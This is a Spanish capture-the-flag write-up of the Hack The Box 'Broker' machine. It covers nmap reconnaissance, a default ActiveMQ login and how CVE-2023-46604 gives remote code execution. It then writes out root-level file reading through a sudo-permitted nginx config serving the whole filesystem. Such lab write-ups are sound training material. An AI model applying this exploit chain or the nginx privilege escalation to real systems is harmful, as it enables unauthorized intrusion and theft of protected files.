



## Información Básica

### Técnicas vistas

- Credential guessing
- ActiveMQ Exploitation - Deserialization Attack (CVE-2023-46604) [RCE]
- Abusing sudoers privilege (nginx) [Privilege Escalation]

### Preparación

- eWPT

---

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.26.178 -oG nmap/allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Ahora con la función **extractPorts** (_Función de S4vitar_), extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash
nmap -sVC -p22,80,1883,5672,8161,33357,61613,61614,61616 10.129.26.178 -oN nmap/targeted
```

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
33357/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.99%I=7%D=6/22%Time=6A3937DB%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\
SF:xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01
SF:\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cli
SF:ent\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,"AM
SF:QP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1
SF:\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x0
SF:2\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x2
SF:0unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0\0A
SF:MQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`
SF:\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:d
SF:ecode-error\xa17Connection\x20from\x20client\x20using\x20unsupported\x2
SF:0AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\
SF:0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x0
SF:2\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Co
SF:nnection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted
SF:")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\
SF:x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\
SF:0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connecti
SF:on\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(D
SF:NSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0
SF:\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x1
SF:8\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20f
SF:rom\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSessi
SF:onReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0
SF:\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S
SF:\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client
SF:\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCookie,
SF:89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x
SF:04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\x
SF:c0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20us
SF:ing\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.99%I=7%D=6/22%Time=6A3937D5%P=x86_64-pc-linux-gnu%r(H
SF:ELP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20STOMP
SF:\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Protoco
SF:lException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apache
SF:\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Protoc
SF:olConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.stom
SF:p\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\n\t
SF:at\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\(Tr
SF:ansportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\.tc
SF:p\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apache\.
SF:activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\)\n
SF:\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto 80



### Credentials guessing

Vemos que nos pide iniciar sesión, hemos visto en los puertos el servicio **ActiveMQ**. Buscando si tiene credenciales por defecto encontramos esto:



Y probándolas:



Vemos la versión `5.15.15` de este servicio.

# Explotación

## CVE-2023-46604

Buscando vulnerabilidades concretas encontramos un [PoC](https://github.com/Strikoder-Premium/CVE-2023-46604-ActiveMQ-RCE-Python) para el `CVE-2023-46604`.

:::note
**¿Cómo funciona el exploit?**

El fallo está en el protocolo **OpenWire** (puerto `61616`). Al deserializar un paquete, ActiveMQ instancia una clase Java **arbitraria** indicada por el atacante, pasándole un `String` al constructor. No valida qué clase se está creando.

El PoC abusa de esto en dos pasos:

1. **Servidor HTTP malicioso:** levanta un servidor web que sirve un `poc.xml` (configuración de Spring). Ese XML define un *bean* `ProcessBuilder` que ejecuta un comando del sistema (la reverse shell).
2. **Paquete OpenWire:** envía al `61616` un paquete que instancia `org.springframework.context.support.ClassPathXmlApplicationContext` con la **URL del XML** como argumento.

Al recibirlo, ActiveMQ descarga ese XML, lo carga como contexto de Spring y ejecuta el `bean` → **RCE**. El resultado es la ejecución del comando que pusimos en el XML, devolviéndonos una shell.
:::

Una vez hecho obtenemos una reverse shell:

```bash
activemq@broker:~$ cat user.txt 
0f3281d5c9af97fda697...
```

# Escalada de privilegios

## Abusing sudoers [nginx]

Usamos `sudo -l` para ver si tenemos algun permiso de sudoer:

```bash
activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Buscando un poco podemos descargar archivos de la máquina como la **root flag** de la siguiente manera:

```bash
activemq@broker:~$ cat > /tmp/nginx.conf << 'EOF'
> user root;
> worker_processes 1;
> events {
>     worker_connections 1024;
> }
> http {
>     server {
>         listen 1337;
> 
>         location / {
>             root /;
>             autoindex on;
>         }
>     }
> }
> EOF
activemq@broker:~$ sudo nginx -c /tmp/nginx.conf
activemq@broker:~$ curl http://127.0.0.1:1337/root/root.txt
5a806f8c13dafc74a...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/578)

---
